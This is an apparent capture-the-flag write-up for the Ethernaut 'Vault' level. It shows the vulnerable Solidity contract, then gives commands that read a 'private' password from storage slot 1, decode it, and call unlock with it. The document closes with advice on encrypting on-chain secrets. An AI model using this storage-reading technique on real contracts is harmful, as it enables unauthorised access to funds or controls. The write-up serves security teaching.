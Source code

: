 # Fallback Level Outline

**Difficulty : 3/10**

Unlock the vault to pass the level!

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188)

## Solution

Nothing on the blockchain is private, not even private variables. We can probe the memory slot from the smart contract to find the value of password.

- Storage slot 0 = locked

- Storage slot 1 = password

So to find the value of password we inspect storage slot 1.

### Walkthrough
1. inspect the first storage slot of the vault 
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

2. for fun lets see the hex data in utf8 format
```console
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
output 
```console
A very strong secret password :)
```

3. call the "unlock(bytes32)" function with the extracted password
```console
cast send $LEVEL_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY 
```
## Further Reading
To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
